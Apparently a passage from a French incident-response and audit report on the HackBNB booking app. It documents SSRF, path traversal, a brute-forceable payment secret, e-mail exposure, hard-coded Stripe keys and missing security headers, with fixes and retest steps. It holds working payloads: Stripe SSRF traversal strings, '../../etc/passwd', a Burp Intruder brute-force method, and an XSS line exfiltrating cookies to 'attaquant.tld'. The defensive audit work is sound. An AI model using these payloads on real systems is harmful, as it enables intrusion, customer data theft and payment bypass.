Correctif et re-test : statut : à appliquer (code non corrigé au 13/11/2026). Après correction, rejouer la requête de l'attaque : GET /api/uploads/?name=../app.py et ?name=../../etc/passwd doivent renvoyer 404 (ou 400), sans contenu.
/api/bookings/<reference>/checkout-lines| Champ | Valeur |
|---|---|
| CWE | CWE-918 (Server-Side Request Forgery) |
| OWASP Top 10 | A10:2021 – Server-Side Request Forgery |
| Localisation | back/services/stripe.py, lignes 31-36 + back/api/bookings/bookings_api.py, ligne 44 |
Code vulnérable
# bookings_api.py checkout_session_id = request.args.get("checkout_session_id") # non contrôlé return jsonify(get_checkout_lines(checkout_session_id)) # stripe.py def get_checkout_lines(checkout_session_id): url = f"https://api.stripe.com/v1/checkout/sessions/{checkout_session_id}/line_items" session = requests.Session() session.auth = (os.getenv('STRIPE_API_KEY'), "") # clé secrète du serveur return session.get(url).json()["data"]
Mécanisme : le paramètre checkout_session_id est injecté tel quel dans l'URL interrogée auprès de l'API Stripe, authentifiée avec la clé secrète du marchand. En injectant une séquence ../../ suivie d'un # (pour tronquer le /line_items final), on détourne la requête vers n'importe quel endpoint Stripe (condition : la réservation utilisée doit être payée, sinon 422).
Réservation utilisée : 57TDGUK1 (is_paid: true)
Payload : checkout_session_id=../../checkout/sessions%23
| Requête | Réponse |
|---|---|
 |
 |
HTTP/2 200 OK : la réponse contient les sessions de paiement Stripe de tous les clients, pas seulement celles liées à la réservation 57TDGUK1.
Observation complémentaire (chaînage D3 → D4) : une des sessions retournées expose, dans son champ success_url, le checkout_confirmation_secret en clair d'une autre réservation (VM4UXB28, payment_status: "unpaid") :
https://hackbnb.dashbox.cloud/booking/VM4UXB28?checkout_confirmation_secret=2cac7e5ac3…[tronqué]
→ chaînage direct D3 → D4 : cette SSRF permet de récupérer le secret de confirmation de n'importe quelle réservation d'un autre client, sans avoir besoin de le bruteforcer (cf. D4). C'est un vecteur d'exploitation encore plus efficace que le bruteforce décrit dans le rapport de pentest pour D4.
Impact : exposition de données de paiement et de secrets de confirmation appartenant à d'autres clients, via une requête authentifiée avec la clé API du marchand détournée vers un périmètre non prévu par l'application.
Niveau de risque (échelle ANSSI) : Exploitation Modérée × Impact Critique = Critique.
Exploitée lors de l'attaque du 7 novembre : Oui. 11:19:43 : checkout_session_id=../../customers%23 → 200, 19 128 640 octets (liste des clients Stripe). Puis 11:20:03 – 11:23:54 : ../../customers/cus_…/payment_methods%23 pour 624 clients, dont 623 par script python-requests.
Recommandation : valider checkout_session_id contre un format strict (regex ^cs_[a-zA-Z0-9_]+$), et/ou vérifier que la session Stripe récupérée correspond bien au stripe_checkout_session_id déjà enregistré pour la réservation concernée.
Correctif et re-test : statut : à appliquer (code non corrigé au 13/11/2026). Après correction, rejouer la requête de l'attaque : GET /api/bookings/<réf. payée>/checkout-lines?checkout_session_id=../../customers%23 doit renvoyer 400, et un checkout_session_id différent de celui enregistré pour la réservation doit être refusé.
| Champ | Valeur |
|---|---|
| CWE | CWE-330 (Use of Insufficiently Random Values) |
| OWASP Top 10 | A02:2021 – Cryptographic Failures |
| Localisation | back/api/bookings/bookings_api.py, lignes 93-95 |
Code vulnérable
random_string = str(int(time.time())) # timestamp UNIX à la seconde près checkout_confirmation_secret = hashlib.sha512(random_string.encode('utf-8')).hexdigest()
Mécanisme : le secret de confirmation de paiement n'est qu'un hash SHA-512 du timestamp serveur (en secondes). Un attaquant connaissant l'heure approximative de création d'une réservation (via le header Date de la réponse HTTP, par exemple) peut bruteforcer ce secret en quelques dizaines/centaines de tentatives, et confirmer le paiement d'une réservation sans jamais payer.
Méthodologie : Burp Intruder, payload type Numbers (plage ciblée autour du timestamp de création, pas de l'heure courante : le secret est fixé au moment de la création et ne change pas), règle de traitement Hash → SHA-512 appliquée au payload, position marquée sur la valeur de confirmationSecret dans le corps JSON de POST /bookings/<reference>/confirm-checkout.
Réservation créée : XFX6Q5I2 (sans jamais ouvrir le checkout_url ni effectuer de paiement réel)
Fenêtre testée : timestamp centre (± marge) autour de l'heure de création : secret retrouvé exactement au timestamp 1794408723 (= heure de création exacte, aucun décalage)
| Requête | Réponse |
|---|---|
 |
 |
Le tableau de résultats Intruder montre la requête #91 en 200 OK (longueur de réponse 166, {"success": true}), distincte des dizaines de tentatives en 422 (longueur 207) juste au-dessus.
GET /api/bookings/XFX6Q5I2 HTTP/2
| Requête | Réponse |
|---|---|
 |
 |
"is_paid": true : la réservation de 340€ (room-1, 2 nuits) est confirmée comme payée, sans qu'aucun paiement Stripe réel n'ait été effectué (le checkout_url n'a jamais été ouvert).
Impact : contournement complet du paiement : confirmation arbitraire de n'importe quelle réservation sans transaction financière réelle.
Niveau de risque (échelle ANSSI) : Exploitation Modérée × Impact Critique = Critique.
Exploitée lors de l'attaque du 7 novembre : Oui, sans bruteforce. Deux essais refusés (11:13:52 et 11:13:57, 422), puis le secret est lu via D1 et la réservation 85A1NBEJ est confirmée sans paiement à 11:16:54 (200).
Recommandation : générer le secret avec une source d'aléa cryptographiquement sûre (secrets.token_hex(32) en Python), indépendante de toute information prévisible comme un timestamp.
Observations complémentaires :
success_url d'une session Stripe d'un autre client (cf. l'observation sur le chaînage D3 → D4), rendant le bruteforce ci-dessus même superflu pour un attaquant qui aurait déjà exploité D3.
success_url=...&checkout_confirmation_secret=..., back/services/stripe.py), donc par construction journalisé par tout reverse-proxy/serveur web en amont (le format de log combined d'Apache inclut la ligne de requête complète), ce qui correspond à CWE-598 (Use of GET Request Method With Sensitive Query Strings). Quiconque a accès aux journaux d'accès peut rejouer ce secret sans même avoir à le bruteforcer.
Correctif et re-test : statut : à appliquer (code non corrigé au 13/11/2026). Après correction, rejouer la requête de l'attaque : Le bruteforce Intruder (SHA-512 des timestamps autour de la création) doit renvoyer uniquement des 422. Le secret généré doit faire 64 caractères hexadécimaux aléatoires, sans lien avec l'heure.
| Champ | Valeur |
|---|---|
| CWE | CWE-359 (Exposure of Private Personal Information to an Unauthorized Actor) |
| OWASP Top 10 | A01:2021 – Broken Access Control (Excessive Data Exposure, OWASP API3:2023) |
| Référence test | OWASP WSTG-INFO-05 (Review Webpage Content for Information Leakage) |
| Localisation | back/api/users/users_models.py, lignes 18-23 + back/api/rooms/rooms_models.py, ligne 35 |
Code vulnérable
# back/api/users/users_models.py:18 def to_dict(self): return { "id": self.id, "name": self.name, "email": self.email, # e-mail renvoyé sans restriction } # back/api/rooms/rooms_models.py:34 if self.host_user: output["host"] = self.host_user.to_dict()
Mécanisme : la sérialisation publique d'une chambre (Room.to_dict()) embarque l'objet hôte complet, dont le to_dict() inclut l'adresse e-mail. Ce to_dict() est appelé par les routes publiques GET /rooms/ et GET /rooms/<room_id> (back/api/rooms/rooms_api.py, lignes 22 et 35), ainsi que par GET /bookings/<reference> via Booking.to_dict() → room.to_dict() (back/api/bookings/bookings_models.py, ligne 36). Aucune authentification n'est requise.
curl -s https://hackbnb.dashbox.cloud/api/rooms/1 | python3 -m json.tool
{ "id": 1, "title": "Nature, Spa & bien-être au Châtaignier", "host": { "email": "john@doe.com", "id": 1, "name": "John Doe" } }

HTTP/2 200 OK, aucun cookie ni jeton envoyé : le champ host.email est renvoyé en clair. GET /api/rooms/ renvoie le même objet pour les 10 chambres de la pré-production (toutes rattachées à l'hôte john@doe.com).
Impact : l'adresse e-mail est une donnée personnelle au sens du RGPD. HackBNB décrit elle-même ses utilisateurs comme ayant « des profils sensibles du monde cyber » (annexe 1, e-mail initial d'Élodie Marchand), un constat corroboré par l'entretien avec le responsable technique (annexe 3). La fuite permet de collecter les e-mails de tous les hôtes en une requête, puis de les cibler (phishing, corrélation d'identités). Les conséquences restent isolées à cette donnée.
Niveau de risque (échelle ANSSI) : Exploitation Facile × Impact Important = Majeur.
Exploitée lors de l'attaque du 7 novembre : Exposée, non ciblée. Aucune requête spécifique, mais chaque GET /api/rooms/<id> servi à l'attaquant (10:52, 11:12, 11:17, 11:34) contenait l'e-mail de l'hôte.
Recommandation : séparer la représentation publique de l'utilisateur de sa représentation privée, et n'utiliser que la première dans les sérialisations publiques.
# users_models.py def to_public_dict(self): return {"id": self.id, "name": self.name} # rooms_models.py if self.host_user: output["host"] = self.host_user.to_public_dict()
L'e-mail ne doit être renvoyé que par une route authentifiée (/users/me), à l'utilisateur concerné.
Correctif et re-test : statut : à appliquer (code non corrigé au 13/11/2026). Après correction, rejouer la requête de l'attaque : GET /api/rooms/1 et GET /api/rooms/ ne doivent plus contenir de champ host.email.
| Champ | Valeur |
|---|---|
| CWE | CWE-798 (Use of Hard-coded Credentials), CWE-540 (Inclusion of Sensitive Information in Source Code) |
| OWASP Top 10 | A07:2021 – Identification and Authentication Failures |
| Localisation | docker-compose.yml, ligne 10 (commit 4aec6cd79…, toujours en HEAD) + back/services/stripe.py (commit ef5503c, retiré au commit 9eeb41e) |
Code vulnérable
# docker-compose.yml, ligne 10 : commit 4aec6cd799457718ab012c186fb29bb6fc3adc43, toujours présent en HEAD environment: APP_ORIGIN_HOST: http://localhost:9000 STRIPE_API_KEY: sk_test_51R…[tronqué]
# back/services/stripe.py : commit ef5503c, retiré au commit 9eeb41e stripe.api_key = "rk_test_51R…[tronqué]"
Mécanisme : un scan Gitleaks de l'historique complet du dépôt remonte 113 alertes, dont 110 sont des secrets de confirmation journalisés dans apache.log (voir annexe A). Après triage, deux clés Stripe distinctes et réellement exploitables sont confirmées :
sk_test_…, droits complets sur le compte marchand) en dur dans docker-compose.yml, introduite au commit 4aec6cd799457718ab012c186fb29bb6fc3adc43 (Emma Roussel, 2025-03-19) : toujours présente dans le code actuel (HEAD), lisible sans avoir besoin de consulter l'historique Git.
rk_test_…) en dur dans back/services/stripe.py, introduite au commit ef5503c puis remplacée par os.getenv('STRIPE_API_KEY') au commit 9eeb41e : retirée du code courant mais toujours lisible dans l'historique.
docker-compose.yml (toujours en HEAD){ "RuleID": "stripe-access-token", "Description": "Found a Stripe Access Token, posing a risk to payment processing services and sensitive financial data.", "StartLine": 10, "EndLine": 10, "Match": "sk_test_51R…[tronqué]", "File": "docker-compose.yml", "Commit": "4aec6cd799457718ab012c186fb29bb6fc3adc43", "Entropy": 5.3875604, "Author": "Emma Roussel", "Email": "emma.roussel@hackbnb.dev", "Date": "2025-03-19T15:30:25Z", "Message": "chore: implement Docker Compose deployment setup", "Fingerprint": "4aec6cd799457718ab012c186fb29bb6fc3adc43:docker-compose.yml:stripe-access-token:10" }
git show HEAD:docker-compose.yml confirme que la clé est encore présente dans la version actuelle du dépôt : aucune recherche dans l'historique n'est nécessaire pour la récupérer.
git show ef5503c:back/services/stripe.py
stripe.api_key = "rk_test_51R…[tronqué]"
Le commit 9eeb41e ("fix: do not hardcode the Stripe API key") retire la clé du code courant, mais ne la supprime pas de l'historique Git : tout clone du dépôt permet de la relire intégralement.
Impact : une clé Stripe valide permet d'interroger directement l'API du compte marchand (consultation des transactions, et selon les droits associés à la clé, création ou remboursement de paiements) sans passer par l'application HackBNB.
Niveau de risque (échelle ANSSI) : Exploitation Difficile × Impact Critique = Majeur (évaluation de l'annexe 5, qui porte sur la fuite dans l'historique ; voir la divergence ci-dessous).
Exploitée lors de l'attaque du 7 novembre : Non observée. Le dépôt Git n'est pas accessible depuis le site. Le fichier stripe.py lu via D2 ne contient plus la clé, et la lecture de .env a échoué (500).
Observation complémentaire (divergence avec le rapport de pentest) : l'annexe 5 évalue D6 en Exploitation Difficile, ce qui suppose une recherche dans l'historique Git. La Preuve 1 montre que la clé sk_test_… est en réalité lisible directement dans le fichier docker-compose.yml courant, sans archéologie Git : pour cette fuite précise, l'exploitation réelle est Facile, ce qui porterait le risque résultant à Critique (Facile × Critique) plutôt que Majeur. La vulnérabilité s'est donc aggravée depuis l'audit de juin 2026 : la clé n'a toujours pas été tournée ni retirée du code en production.
Recommandation :
.env non versionné (.gitignore) ou un gestionnaire de secrets dédié (Vault, AWS/GCP Secrets Manager).
git filter-repo, BFG Repo-Cleaner).
Correctif et re-test : statut : à appliquer (code non corrigé au 13/11/2026). Après correction, rejouer la requête de l'attaque : gitleaks git . doit renvoyer 0 secret Stripe, et les anciennes clés doivent apparaître comme révoquées dans le dashboard Stripe.
| Champ | Valeur |
|---|---|
| CWE | CWE-79 (Cross-site Scripting), CWE-693 (Protection Mechanism Failure) |
| OWASP Top 10 | A05:2021 – Security Misconfiguration, A03:2021 – Injection |
| Référence test | OWASP WSTG-CONF-12 (Test for Content Security Policy), WSTG-INPV-02 (Stored XSS) |
| Localisation | apache/apache-prod.conf (aucun en-tête de sécurité), front/src/pages/room/Room.tsx, ligne 52, front/src/pages/booking/Booking.tsx, ligne 49 |
Code vulnérable
// front/src/pages/room/Room.tsx:52
<div className="mt-8" dangerouslySetInnerHTML={{__html: room.description}}></div>
// front/src/pages/booking/Booking.tsx:49
<div className="mt-8" dangerouslySetInnerHTML={{__html: booking.room.description}}></div>
# apache/apache-prod.conf : seule directive d'en-tête présente dans le VirtualHost RequestHeader set X-Forwarded-Proto "https" # aucun Header set Content-Security-Policy / X-Content-Type-Options / X-Frame-Options / HSTS
Mécanisme : deux défauts se combinent.
description renvoyé par l'API directement dans le DOM via dangerouslySetInnerHTML, sans échappement ni assainissement. L'API renvoie déjà ce champ en HTML brut ("<p>Loft moderne… <em>Proche des transports</em>.</p>").
apache-prod.conf) ni Flask (back/app.py, pas de Flask-Talisman ni de after_request) ne positionnent d'en-tête de sécurité. En l'absence de Content-Security-Policy, le navigateur exécute sans restriction tout script injecté dans la page.
curl -sI https://hackbnb.dashbox.cloud/ curl -sI https://hackbnb.dashbox.cloud/api/
# https://hackbnb.dashbox.cloud/ HTTP/2 200 cache-control: no-cache content-type: text/html server: Apache/2.4.68 (Unix) vary: Origin # https://hackbnb.dashbox.cloud/api/ HTTP/2 200 access-control-allow-origin: http://localhost:9000 content-type: text/html; charset=utf-8 server: Werkzeug/3.1.8 Python/3.14.0
Aucun Content-Security-Policy, X-Content-Type-Options, X-Frame-Options, Referrer-Policy ni Strict-Transport-Security, que ce soit sur le front ou sur l'API.

Page /room/1 : la description (<p>Spa idéal pour se détendre !</p>) est rendue comme un paragraphe HTML et non affichée littéralement. dangerouslySetInnerHTML interprète donc bien le HTML renvoyé par l'API. Un payload <img src=x onerror=alert(document.cookie)> placé dans ce champ s'exécuterait de la même façon.
Chaînage (non exécuté, tests non destructifs) : un attaquant capable d'écrire dans rooms.description (via l'injection SQL D1, ou en tant qu'hôte malveillant) obtient un XSS stocké exécuté chez chaque visiteur de /room/<id> et de /booking/<ref> :
UPDATE rooms SET description = '<img src=x onerror=fetch("https://attaquant.tld/?c="+document.cookie)>' WHERE id = 1
Impact : vol de session, actions effectuées au nom de la victime (réservations, modification de compte), redirection vers une page de phishing. L'impact se limite au front, mais touche tous les visiteurs d'une annonce piégée.
Niveau de risque (échelle ANSSI) : Exploitation Difficile × Impact Majeur = Majeur.
Exploitée lors de l'attaque du 7 novembre : Non observée. Aucun payload XSS dans le journal.
Recommandation :
dangerouslySetInnerHTML et afficher la description comme texte (React échappe automatiquement), ou l'assainir avec DOMPurify si le formatage doit être conservé.
<div className="mt-8">{room.description}</div>
// ou : dangerouslySetInnerHTML={{__html: DOMPurify.sanitize(room.description)}}
VirtualHost de apache-prod.conf (module mod_headers) :
Header always set Content-Security-Policy "default-src 'self'; script-src 'self'; object-src 'none'; frame-ancestors 'none'" Header always set X-Content-Type-Options "nosniff" Header always set X-Frame-Options "DENY" Header always set Referrer-Policy "no-referrer" Header always set Strict-Transport-Security "max-age=31536000; includeSubDomains"
Observation complémentaire : l'API renvoie access-control-allow-origin: http://localhost:9000. APP_ORIGIN_HOST est resté sur sa valeur de développement en pré-production : la configuration CORS n'a pas été adaptée à l'environnement.
Correctif et re-test : statut : à appliquer (code non corrigé au 13/11/2026). Après correction, rejouer la requête de l'attaque : curl -sI https://hackbnb.dashbox.cloud/ doit afficher Content-Security-Policy, X-Content-Type-Options, X-Frame-Options, Referrer-Policy et Strict-Transport-Security. Une description <img src=x onerror=alert(1)> doit s'afficher en texte, sans exécution.
| Champ | Valeur |
|---|---|
| CWE | CWE-497 (Exposure of Sensitive System Information), CWE-489 (Active Debug Code) |
| OWASP Top 10 | A05:2021 – Security Misconfiguration |
| Référence test | OWASP WSTG-INFO-02 (Fingerprint Web Server) |
| Localisation | back/app.py, lignes 42-46 + prod.entrypoint.sh, ligne 2 + apache/apache-prod.conf (absence de ServerTokens / ServerSignature) |
Code vulnérable
# back/app.py:42 app.run( debug=True, host="0.0.0.0", port=9001, )
# prod.entrypoint.sh : l'image de production lance directement ce serveur apache2ctl -D FOREGROUND & python3 app.py
Mécanisme : l'API Flask est servie par le serveur de développement Werkzeug en mode debug=True. Werkzeug ajoute sa version et celle de Python à chaque réponse. Côté Apache, aucune directive ServerTokens Prod ne limite la bannière, si bien que la version exacte du serveur est également annoncée.
curl -sI https://hackbnb.dashbox.cloud/ | grep -i server # server: Apache/2.4.68 (Unix) curl -sI https://hackbnb.dashbox.cloud/api/ | grep -i server # server: Werkzeug/3.1.8 Python/3.14.0
Réponses complètes (capturées le 9 novembre 2026, requêtes GET non destructives) :
$ curl -i https://hackbnb.dashbox.cloud/ HTTP/2 200 cache-control: no-cache content-type: text/html date: Mon, 09 Nov 2026 15:31:59 GMT etag: W/"268-6R9WRQdFozTi1rC+8sChkchLtzo" server: Apache/2.4.68 (Unix) vary: Origin content-length: 616
→ D8 : bannière Apache (version exacte) exposée.
$ curl -i https://hackbnb.dashbox.cloud/api/ HTTP/2 200 access-control-allow-origin: http://localhost:9000 content-type: text/html; charset=utf-8 date: Mon, 09 Nov 2026 15:31:59 GMT server: Werkzeug/3.1.8 Python/3.14.0 content-length: 14
→ D8 : serveur de développement Werkzeug (Flask debug=True) et versions exactes de Werkzeug et Python exposés.
→ D7 : aucun en-tête de sécurité (Content-Security-Policy, X-Content-Type-Options, X-Frame-Options, Strict-Transport-Security tous absents).
Les réponses divulguent :
2.4.68) ;
Impact : un attaquant peut cibler directement les CVE connues pour ces versions précises, sans phase de reconnaissance. Le point le plus sérieux est le mode debug=True : toute exception non gérée renvoie une page de traceback détaillée (chemins, extraits de code, variables), et le débogueur interactif Werkzeug permet l'exécution de code Python s'il devient accessible. Les conséquences restent isolées tant que le débogueur n'est pas atteint.
Niveau de risque (échelle ANSSI) : Exploitation Très difficile × Impact Important = Mineur. Note : la lecture des bannières est triviale. Le classement « Très difficile » porte sur la suite de l'attaque, qui suppose de trouver et d'exploiter une vulnérabilité propre à ces versions.
Exploitée lors de l'attaque du 7 novembre : Oui. 11:18:49 – 11:18:54 : ?name=test.jpg, .env, /etc/passwd → 500 de 23 Ko, soit le traceback du débogueur Werkzeug. L'attaquant y a vu l'arborescence du back juste avant de lire les fichiers par D2.
Recommandation :
# app.py : debug=False par défaut app.run(host="127.0.0.1", port=9001)
# prod.entrypoint.sh gunicorn -w 4 -b 127.0.0.1:9001 app:app
apache-prod.conf (mod_headers est déjà activé dans prod.dockerfile) :
